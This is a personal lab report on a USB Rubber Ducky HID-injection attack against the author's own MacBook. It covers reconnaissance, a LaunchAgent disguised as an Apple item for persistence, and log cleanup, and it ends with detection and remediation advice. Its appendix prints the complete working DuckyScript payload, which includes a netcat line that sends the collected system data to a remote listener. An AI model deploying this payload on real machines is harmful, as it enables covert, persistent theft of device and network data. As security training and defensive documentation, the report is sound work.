# USB Rubber Ducky Lab Report

*By Cameron Korody*



## Executive Summary

In this report I document a controlled demonstration of a USB HID
Injection attack on my personally owned hardware. Using a USB Rubber
Ducky from Hak5, I extracted network interface configurations, saved
SSIDs, Wi-Fi information, Bluetooth information, paired device data, and
hardware identifiers – all without escalated privileges. All data is
compiled into a single text file and exfiltrated to a remote listener,
then deleted from the target – leaving minimal forensic evidence on the
target device. Additionally, upon every user login the data is
reacquired and retransmitted to the remote listener – even after the USB
has been removed. USB device control policies, physical port
restrictions and periodic persistence scanning can be used to minimize
this attack vector.

**Disclaimer:** Everything shown in this lab was conducted on authorized
equipment in a secured and controlled environment.

## Tools and Lab Environment

**Hardware:**

- USB Rubber Ducky from Hak5 (MicroSD card included)

- MacBook Pro (2024 M4 Pro)

**Software / Tools:**

- Hak5 Payload Studio Pro – Compiler for DuckyScript

- macOS 26.6.2

- Native macOS CLI tools:

  - system_profiler

  - networksetup

  - ifconfig

  - bash

  - launchctl

  - nc (netcat)

  - nano, echo, rm (basic shell utilities)

- KnockKnock by Objective-See

**Receiving / Listener Infrastructure:**

- AWS EC2 instance (Amazon Linux, us-east-2)

- TCP Port 4444

**  
**

**Lab Environment:**

- All testing was performed on personally owned hardware.

- Target device was connected via personal hotspot; listener
  infrastructure hosted on AWS EC2 in us-east-2 (Ohio).

- No third-party networks or data were involved in the testing.

- macOS was tested in default configuration with no additional hardening
  applied.

## Methodology

### Phase 1 – Pre-Attack Setup & Payload Development

- I used DuckyScript in Hak5 Payload Studio Pro to develop the payload.

- The payload was compiled to inject.bin and loaded onto a MicroSD card
  inserted on the USB.

- The shell script (systemhealth.sh) was developed and manually tested
  in my Terminal prior to the Ducky deployment.

- Configure Netcat on the AWS EC2 to listen for traffic on port 4444.

### Phase 2 – Initial Access

- The USB Rubber Ducky was inserted into target MacBook Pro.

- The target MacBook Pro enumerates the USB Rubber Ducky as a HID
  keyboard automatically.

- The payload is then executed by the target MacBook – Terminal opened,
  heredoc wrote systemhealth.sh to /tmp/

- Script is executed immediately upon writing.

**  
**

### Phase 3 – Reconnaissance

- The native macOS CLI tools are silently queried.

- The output of the commands is compiled into a single text file located
  in /tmp/systemhealth.txt

  - *The Commands collected hardware identifiers, network interface
    configurations, saved SSIDs, Wi-Fi details, and paired Bluetooth
    device information.*

### Phase 4 – Persistence

- A LaunchAgent plist titled com.apple.systemhealth.plist is written to
  ~/Library/LaunchAgents/

- This plist is automatically registered to launch on the next login.

- The script continues to execute every subsequent login.

### Phase 5 – Exfiltration

- Data is transmitted via netcat to AWS EC2 listener on TCP port 4444.

  - *This data is transmitted unencrypted over the public internet via
    netcat. In a real-world scenario, an attacker would most likely
    choose to use HTTPS or DNS exfiltration to blend in with normal
    traffic.*

- The bash script automatically deletes the /tmp/systemhealth.txt file
  after transmission.

### Phase 6 – Clean Up

- The USB is removed from the target device.

- The /tmp/systemhealth.txt output file is deleted after transmission,
  leaving minimal loot on the target device.

- com.apple.systemhealth remains in the ~/Library/LaunchAgents ready to
  run on each log in.

## Technical Findings

### Finding 1 – HID Device Enumeration

- macOS automatically trusts the USB Rubber Ducky as a keyboard with no
  user prompt.

**  
**

### Finding 2 – Hardware Identification

COMMAND: system_profiler SPHardwareDataType



The console returns sensitive hardware information such as the device
serial number, hardware universally unique identifier (UUID), and model
information. Additionally, the output provides device information such
as CPU, total number of cores, amount of memory, firmware version being
run, etc.

**Impact:** The serial number and UUID can uniquely identify the device
and possibly the owner and additional descriptive information can assist
attackers in finding known device vulnerabilities.

### Finding 3 – Network Interface Enumeration

COMMAND: ifconfig en0

COMMAND: curl -4 ifconfig.me

COMMAND: curl -6 ifconfig.me



The console returns interface configurations for “Ethernet Interface 0”
which includes the media access control (MAC) address for network
interface card (NIC) on the device. Additionally, IPv4 and IPv6
addresses configured on that interface are collected along with the
subnet mask and broadcast address. To ensure the public IPv4 and IPv6
addresses are captured, the *-4 ifconfig.me* and *curl -6 ifconfig.me*
commands are also used.

**Impact:** Attackers can use the information from these commands to
launch a multitude of attacks such as MAC spoofing, Denial of Service
(DoS), Man-in-the-Middle, network mapping (from the private IPv4), and
more.

### Finding 4 – Saved Wi-Fi Networks

COMMAND: networksetup -listpreferredwirelessnetworks en0



The console returns all networks the device has joined on its ethernet
interface 0.

**Impact:** An attacker can use these saved SSIDs to conduct evil twin
attacks and steal user credentials.

### Finding 5 – Wi-Fi Hardware Information

COMMAND: system_profiler SPAirPortDataType



The console returns Wi-Fi hardware device information such as MAC
addresses, 802.11 operating channels, Wi-Fi hardware information for
known (redacted) SSIDs, the Apple Wireless Direct Link (AWDL) MAC
address, etc.

**Impact:** This information can be used by an attacker to find known
firmware vulnerabilities or tailor radio frequencies to conduct an
evil-twin attack on specific hardware.

### Finding 6 – Bluetooth Paired Devices

COMMAND: system_profiler SPBluetoothDataType



The console returned Bluetooth controller addresses for every Bluetooth
device saved on the target. Additional information from the target
device’s Bluetooth controller is provided along with serial numbers for
specific devices.

**Impact:** Paired device names and addresses can expand an attacker’s
attack vector. The attacker can use this information to spoof or
impersonate trusted peripherals to gain additional information.

### Finding 7 – Cleartext Exfiltration / No Egress Control

Command (from EC2): nc -lvp 4444



The command above sets the EC2 as a remote listener. Prior to conducting
the attack, all the attacker needs to do is change the public IP address
to their listening device and wait for the information to come in. If
the attacker leaves the listener running, these processes will reoccur
every time the victim turns their device on – meaning the attacker can
track any changes.

**Impact:** This allows an attacker to conduct this attack remotely or
even conduct a mass USB drop attack and wait for the information to come
into their listener.

### Finding 8 – Persistence

**Command:** launchctl list \| grep systemhealth

**Command:** ls ~/Library/LaunchAgents/





The console returns the com.apple.systemhealth.plist, showing it was
added to the LaunchAgents without error.

**Impact:** This is the key portion of the attack, persistence. Since
the com.apple.systemhealth plist was added to the LaunchAgents, every
restart of the victim’s device will rerun the attack.

**  
Detection & Remediation**

Throughout each stage of the attack chain, there is a different
opportunity to detect or block it. The controls below are organized by
vector:

### HID Injection / Untrusted Keyboard

- On updated macOS, there are settings that can be turned on that
  require approval before a newly connected USB accessory may
  communicate.

- Enforcing a USB device-control policy through Mobile Device Management
  or Endpoint Detection and Response allowlists can be used to block
  unrecognized HID devices.

- Physical restriction and blocking of ports in high-security areas and
  a short screen-lock out can also be highly effective.

### Payload Execution

- Using Mobile Device Management to restrict end-user access to the
  Terminal.

- Non-admin users should follow the security principal of least
  privilege to limit follow-on actions and data exposure.

### Reconnaissance

- Endpoint Detection and Response alert for anomalous patterns, such as
  a GUI-launched Terminal followed by a rapid burst of profiling
  commands writing to a /tmp file and opening an outbound connection.

- Centralize logging and endpoint telemetry so the sequence can be
  reconstructed and reviewed after the attack occurs.

### Persistence

- Monitor the ~/Library/LaunchAgents and /Library/LaunchAgents for new
  or modified plists. Utilization of a 3rd party tool (such
  as KnockKnock) can assist in spotting these new/modified plists.

- Baseline persistence items through Mobile Device Management and
  Endpoint Detection and Response.



### Exfiltration

- Apply egress filtering at the host and network levels. This can be
  done by using a host-based firewall or outbound monitoring tool which
  will prevent the unexpected outbound connection from bash or netcat.

- Network IDS and firewall rules can be used to flag plaintext traffic
  to uncommon ports and connections to unknown external IP addresses.

## Conclusion

This lab demonstrates the vulnerability of a macOS endpoint under
default configuration to a USB HID Injection attack. A short USB
insertion can leave a Mac vulnerable to persistent threats upon every
reboot (even after device removal) and remote exfiltration without any
privilege escalation or user interaction beyond an unlocked session. The
payload relied on a trusted keyboard enumeration, native command-line
tooling, a LaunchAgent creation, and a plaintext network channel.

## Lessons Learned

- Physical device access remains decisive, just a few seconds with an
  unlocked machine can lead to persistent code execution and
  exfiltration.

- Defense in depth is key, and no single control is sufficient to stop a
  motivated attacker.

- Default configurations are a weak point in security and enabling a few
  simple rules can result in a successful or failed attack.

## Appendix A – Persistence Artifacts

The LaunchAgent property list (plist) written during Phase 4 of the
attack is shown below.

PLIST XML CODE

\<?xml version=”1.0” encoding=”UTF-8”?\>

\<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd"\>

\<plist version=”1.0”\>

\<dict\>

\<key\>Label\</key\>

\<string\>com.apple.systemhealth\</string\>

\<key\>ProgramArguments\</key\>

\<array\>

\<string\>/bin/bash\</string\>

\<string\>/tmp/systemhealth.sh\</string\>

\</array\>

\<key\>RunAtLoad\</key\>

\<true/\>

\<key\>KeepAlive\</key\>

\<false/\>

\</dict\>

\</plist\>

## Appendix B – Reconnaissance/Exfiltration Script

The screenshot below shows the /tmp/systemhealth.sh script. In the
screenshot you can see each command being run in the script to gather
system information. Towards the bottom of the screenshot, you will see
where the netcat is called to send out the acquired data. After the data
is exfiltrated, the script deletes the /tmp/systemhealth.txt file to
make detection that much more difficult.



The DuckyScript below was written in Hak5 Payload Studio Pro, compiled to
`inject.bin`, and loaded onto the Rubber Ducky's MicroSD card. On insertion it
opens Terminal and uses a heredoc to write `systemhealth.sh` to `/tmp/`, then
executes it. The full file is included in this repo as
[`Ducky_Final_Payload.txt`](Ducky_Final_Payload.txt).

REM PERSISTENT MACOS ATTACK
REM AUTHOR CAMERON KORODY

REM START PROGRAM
REM OPEN TERMINAL
LED_OFF
DELAY 500
COMMAND SPACE
DELAY 250
STRING Terminal
ENTER
DELAY 1000

REM CREATE BASH SCRIPT
REM DATA COLLECTION PORTION
STRING nano /tmp/systemhealth.sh
ENTER
DELAY 20
STRING echo "========================DEVICE INFORMATION========================" > /tmp/systemhealth.txt
ENTER
STRING system_profiler SPHardwareDataType >> /tmp/systemhealth.txt
ENTER
STRING echo "========================IP INFORMATION========================" >> /tmp/systemhealth.txt
ENTER
STRING ifconfig >> /tmp/systemhealth.txt
ENTER
STRING echo "========================SAVED SSIDs INFORMATION========================" >> /tmp/systemhealth.txt
ENTER
STRING networksetup -listpreferredwirelessnetworks en0 >> /tmp/systemhealth.txt
ENTER
STRING echo "========================NETWORK INFORMATION========================" >> /tmp/systemhealth.txt
ENTER
STRING system_profiler SPAirPortDataType >> /tmp/systemhealth.txt
ENTER
STRING echo "========================BLUETOOTH INFORMATION========================" >> /tmp/systemhealth.txt
ENTER
STRING system_profiler SPBluetoothDataType >> /tmp/systemhealth.txt
ENTER
ENTER
ENTER
ENTER
ENTER
REM EXFIL PORTION
STRING cat /tmp/systemhealth.txt | nc <REDACTED IP ADDRESS> 4444
ENTER
ENTER
ENTER
REM CLEANUP
STRING rm /tmp/systemhealth.txt
ENTER
CTRL x
DELAY 20
Y
DELAY 20
ENTER
DELAY 20
STRING chmod +x /tmp/systemhealth.sh
ENTER
DELAY 50
STRING bash /tmp/systemhealth.sh
ENTER

REM WRITE TO PLIST TO WORK UPON RESTART
DELAY 100
STRING cat << 'EOF' > ~/Library/LaunchAgents/com.apple.systemhealth.plist 
ENTER
STRING <?xml version="1.0" encoding="UTF-8"?>
ENTER
STRING <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST1 1.0/EN" http://www.apple.com/DTDs/PropertyList-1.0.dtd">
ENTER
ENTER
STRING <plist version="1.0">
ENTER
ENTER
STRING <dict>
ENTER
ENTER
TAB
STRING <key>Label</key>
ENTER
ENTER
TAB
STRING <string>com.apple.systemhealth</string>
ENTER
ENTER
ENTER
TAB
STRING <key>ProgramArguments</key>
ENTER
TAB
STRING <array>
ENTER
TAB
TAB
STRING <string>/bin/bash</string>
ENTER
TAB
TAB
STRING <string>/tmp/systemhealth.sh</string>
ENTER
TAB
STRING </array>
ENTER
ENTER
ENTER
TAB
STRING <key>RunAtLoad</key>
ENTER
TAB
STRING <true/>
ENTER
TAB
STRING <key>KeepAlive</key>
ENTER
TAB
STRING <false/>
ENTER
STRING </dict>
ENTER
STRING </plist>
ENTER
STRING EOF
ENTER
DELAY 20
STRING launchctl bootstrap gui/$(id -u) ~/Library/LaunchAgents/com.apple.systemhealth.plist
ENTER
COMMAND l
DELAY 20
COMMAND m
END